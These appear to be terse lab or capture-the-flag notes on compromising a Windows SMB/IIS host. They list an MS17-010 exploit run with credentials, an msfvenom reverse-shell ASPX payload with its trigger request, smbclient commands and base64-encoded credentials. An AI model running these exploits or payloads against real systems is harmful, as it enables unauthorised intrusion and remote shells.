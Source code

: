 git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python zzz_exploit.py -target-ip 10.10.83.113 -port 445 'Bob:!P@$$W0!@#!@#!@'
curl http://10.10.83.113:49663/nt4wrksv/relevant.aspx

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.83.113 LPORT=443 -f aspx > relevant.aspx

smbclient \\\\10.10.83.113\\nt4wrksv
smbclient port -> 139  일단 추리상 80이랑 139는 제외 인 듯 
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
